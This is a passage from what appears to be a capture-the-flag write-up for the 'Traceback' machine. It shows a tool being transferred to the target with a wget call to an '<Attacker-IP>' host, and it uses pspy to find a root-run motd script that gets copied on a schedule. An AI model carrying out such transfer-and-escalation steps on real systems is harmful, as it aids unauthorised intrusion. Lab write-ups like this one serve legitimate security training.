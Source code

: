 If you notice, we get a custom banner for logging in with SSH

### pspy

We can now use [pspy64](https://github.com/DominicBreuker/pspy) to monitor processes and see if anything is being ran in the background

To transfer the pspy64 binary to the target machine, download it to your local machine and start a python http server in it's directory

``` bash
$ python3 -m http.server 1234
```

Now just download it in the target machine and make it executable

``` bash
$ wget http://<Attacker-IP>:1234/pspy64
$ chmod +x pspy64
```

Now if you run it and wait for a while, we will see some commands being ran

![](Traceback/pspy64.png)

Here we can see that files from /var/backups/.update-motd.d/ are being copied to /etc/update-motd.d/ every 30 seconds

### root

If we look at /etc/update-motd.d/00-header we will find the exact message we got when we logged in with SSH at the bottom
![](Traceback/00header.png)
